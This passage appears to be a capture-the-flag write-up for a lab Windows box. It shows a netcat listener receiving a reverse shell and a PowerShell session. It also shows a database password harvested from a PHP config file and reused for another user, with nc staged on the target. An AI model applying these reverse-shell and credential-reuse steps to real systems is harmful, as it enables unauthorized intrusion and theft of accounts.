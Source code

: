 #### Listener:
```
root@gr4n173:~$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.151] 50602
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\gr4n173>whoami
whoami
nt authority\iusr
```
Here I was unable to run any commands, so I switched to powershell as:

#### Power shell
```
C:\gr4n173>powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\gr4n173> 
```

Then I found the `Chris` user. Since I m unprivelege user so no any permission was granted.

```
PS C:\Users> ls
ls
    Directory: C:\Users


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----         4/9/2019   6:47 AM                Administrator                                                         
d-----        4/11/2019   7:04 AM                Chris                                                                 
d-r---         4/9/2019   6:47 AM                Public                                                                
```
Now I had to change the user from unprivileged to privileged for that I searched everypart of the dir and found the creds of user `chris` as `Chris:36mEAhz/B8xQ~2VM`.

```
PS C:\inetpub\wwwroot\user> more db.php
more db.php
<?php
// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>
```
By combining creds and `Invoke-Command` I got the user shell. Before that I created the folder `files` and downloaded the `nc` tool inside. Since it's 2020 as python2 died so I used python3 server as
